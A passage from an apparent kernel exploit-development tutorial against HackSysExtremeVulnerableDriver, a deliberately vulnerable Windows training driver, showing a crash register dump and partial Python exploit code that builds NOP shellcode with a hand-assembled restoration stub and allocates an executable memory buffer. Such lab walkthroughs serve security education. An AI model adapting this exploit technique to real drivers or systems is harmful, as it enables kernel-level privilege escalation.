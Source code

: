 We see that we have these register values: 
```
rax=0000000000000000 rbx=fffffa80062e06a0 rcx=fffff88004f7efe0
rdx=0000077ffd394e20 rsi=fffffa8005539d10 rdi=fffffa80062e05d0
rip=fffff880038815f4 rsp=fffff88004f7f7e8 rbp=0000000000000001
 r8=0000000000000000  r9=0000000000000000 r10=4141414141414141
r11=fffff88004f7f7e0 r12=fffffa8005b77370 r13=0000000000000000
r14=fffffa80062e06e8 r15=0000000000000003
```

Our target, RDI has an offset of `d0` with RBX (RBX - RDI = `0xd0`). So what we can do then, is in our restoration stub of our shellcode, we can load RBX into RDI and then subtract `0xd0` from RDI and we should end up with the right value. 

Let's try to get a clean run through with no crash. Our updated exploit code looks like this now:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x90" * 100                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

```